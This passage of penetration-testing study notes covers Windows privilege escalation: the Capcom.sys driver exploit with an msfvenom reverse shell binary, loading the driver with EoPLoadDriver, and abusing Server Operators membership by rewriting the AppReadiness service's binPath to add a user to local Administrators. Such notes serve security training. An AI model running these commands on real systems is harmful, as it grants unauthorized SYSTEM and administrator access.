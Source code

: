 ### Alternative Exploit - No GUI
if we dont have access to a GUI we have to modify `ExploitCapcom.cpp` 
we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

We then would set up a listener 

### Automating steps
#### Automating with EopLoadDriver
We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:
```cmd-session
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```
We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

## Server Operators
```
prereqs
Member of the server operators group
service that starts with SYSTEM
```

The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

### App Readiness Service
#### Querying the App Readiness Service
We can confirm the `AppReadiness` service starts as SYSTEM using the `sc.exe` utility.
```cmd-session
sc qc AppReadiness
```

#### Checking Service Permissions with PsService
We can use the `psservice` service viewer/controller which is part of `sysinternals` to check permissions on a service. 
```cmd-session
c:\Tools\PsService.exe security AppReadiness
```

#### Checking Local Admin Group Membership
```cmd-session
net localgroup Administrators
```

#### Modifying Service Binary
```cmd-session
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

